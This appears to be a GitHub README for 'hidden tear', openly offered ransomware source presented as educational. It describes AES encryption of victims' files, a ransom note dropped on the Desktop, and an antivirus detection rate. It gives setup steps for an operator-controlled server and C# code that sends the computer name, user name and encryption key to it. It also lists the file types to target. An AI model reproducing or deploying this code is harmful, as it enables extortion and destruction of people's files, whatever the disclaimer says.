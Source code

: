          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific educational purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (207 KB)
* Detected by 13/35 antivirus programs (1/08/2016) http://NoDistribute.com/result/yQI70xZO1RfCMjWBAD6tuNFsimLGT3

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server where the info remains. Change this line with your URL. (You better use HTTPS for more security)

  `string targetURL = "http://localhost/info/index.php";`

* The script do the POST request to the server (targetURL). Sending process running in `SendPassword()` function

```
using (var client = new WebClient())
   {
       var values = new NameValueCollection();
       values["computerName"] = computerName;
       values["userName"] = userName;
       values["password"] = password;
       client.UploadValues(targetURL, "POST", values);
   }
```
  
* Example of target file extensions that can be changed:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```

**Example GUI decrypter**

![alt tag](http://i63.tinypic.com/111rwg6.png)


**Article: Destroying The Encryption of Hidden Tear Ransomware** 

http://www.utkusen.com/blog/destroying-the-encryption-of-hidden-tear-ransomware.html

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

